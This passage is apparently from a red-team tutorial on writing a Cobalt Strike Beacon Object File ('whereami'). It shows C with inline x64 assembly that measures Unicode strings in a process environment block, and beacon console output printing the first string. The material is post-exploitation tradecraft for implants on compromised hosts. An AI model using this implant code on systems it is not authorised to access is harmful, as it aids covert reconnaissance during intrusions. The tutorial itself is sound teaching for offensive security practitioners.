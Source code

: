 ### Resolving Unicode Delimiters via String Size
To list out all the Unicode strings, we first need to find where they end. Once we know where the first-string ends, we can print it out, and then move to the next. We'll continue to do this for all the Unicode strings until we exhaust the size of the environment.

After tinkering around in x64dbg, the getUnicodeStrLen() function has been added to the code. This will return the length of our Unicode string. For our test we will then print the Unicode string using `BeaconPrintf()` with `%ls`.

```c
PVOID getUnicodeStrLen(PVOID envStrAddr)
{
    PVOID unicodeStrLen = NULL;
    __asm__(
        "mov rax, %[envStrAddr] \n"
        "xor rbx, rbx \n" // RBX is our 0x00 null to compare the string position too
        "xor rcx, rcx \n" // RCX is our string length counter
    "check: \n"
        "inc rcx \n"
        "cmp bl, [rax + rcx] \n"
        "jne check \n"
        "inc rcx \n" 
        "cmp bl, [rax + rcx] \n"
        "jne check \n"
        "mov %[unicodeStrLen], rcx \n"
	:[unicodeStrLen] "=r" (unicodeStrLen)
	:[envStrAddr] "r" (envStrAddr)
    );
    return unicodeStrLen;
}
void go(char *args, int len)
{
    PVOID procParamAddr = NULL;
    PVOID environmentAddr = NULL;
    PVOID environmentSize = NULL;
    PVOID unicodeStrSize = NULL;
    procParamAddr = getProcessParamsAddr();
    environmentAddr = getEnvironmentAddr(procParamAddr);
    environmentSize = getEnvironmentSize(procParamAddr);
    unicodeStrSize = getUnicodeStrLen(environmentAddr);
    BeaconPrintf(CALLBACK_OUTPUT, "[+] Environment Address: %p",environmentAddr); 
    BeaconPrintf(CALLBACK_OUTPUT, "[+] Environment Size:    %d",environmentSize);
    BeaconPrintf(CALLBACK_OUTPUT, "[+] 1st String Size:    %d",unicodeStrSize);
    BeaconPrintf(CALLBACK_OUTPUT, "[+] 1st String Value:   %ls",environmentAddr);
}
```

We test our BOF again and confirm it is working correctly.

```bash
beacon> whereami
[*] Where Am I? BOF (Bobby Cooke//SpiderLabs|@0xBoku|github.com/boku7)
[+] host called home, sent: 716 bytes
[+] received output:
[+] Environment Address: 0000000000751130
[+] received output:
[+] Environment Size:    4242
[+] received output:
[+] 1st String Size:    14
[+] received output:
[+] 1st String Value:   =::=::\
```
+ We can see that we are successfully printing the first Unicode string from our Environment block into the interactive beacon console.
